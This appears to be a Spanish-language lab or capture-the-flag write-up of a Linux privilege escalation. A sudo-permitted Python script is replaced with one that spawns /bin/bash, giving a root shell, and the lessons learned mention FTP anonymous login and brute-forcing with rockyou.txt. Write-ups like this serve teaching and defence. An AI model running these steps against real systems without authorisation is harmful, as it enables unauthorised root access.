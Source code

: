 **Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/geo_ip.py ]`
- Credenciales de usuario: `[ root ]:[  ]`

Modificamos el archivo cambiandolo de nombre para nosotros poder crear el nuestro propio bajo ese mismo nombre
```bash
mv geo_ip.py otro.py
```

Su contenido:
```python
import os
os.system("/bin/bash")
```

Explotamos el privilegio:
```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@2e00a59d8d5d:/home/iker# whoami
root
```

---

## Lecciones Aprendidas
1. Usuario **Anonymous** siempre permite loguearnos sin contrasena
2. Creacion de diccionarios personalizados basados en un usuario
3. Uso de herramientas como: **Linux-Su-Force.sh** y **rockyou.txt** para ataques de fuerza bruta

## Recomendaciones de Seguridad
- Deshabilitar el usuario **Anonymoues**
- Controlar archivos compartidos por **FTP**
- Validar cuando se pueda subir archivos al servidor que no sean maliciosos.

